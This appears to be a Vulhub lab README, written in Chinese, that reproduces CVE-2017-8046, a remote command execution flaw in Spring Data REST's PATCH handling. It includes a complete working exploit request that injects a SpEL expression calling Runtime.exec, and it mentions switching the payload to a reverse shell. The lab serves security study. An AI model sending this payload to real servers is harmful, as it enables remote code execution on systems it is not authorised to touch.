


# Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

参考链接：

- http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/
- https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html

## 环境搭建

执行如下命令启动漏洞环境：

```
docker-compose up -d
```

等待环境启动完成，然后访问`http://your-ip:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。

## 漏洞复现

访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器`docker-compose exec spring bash`看看：



可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)），成功弹回：


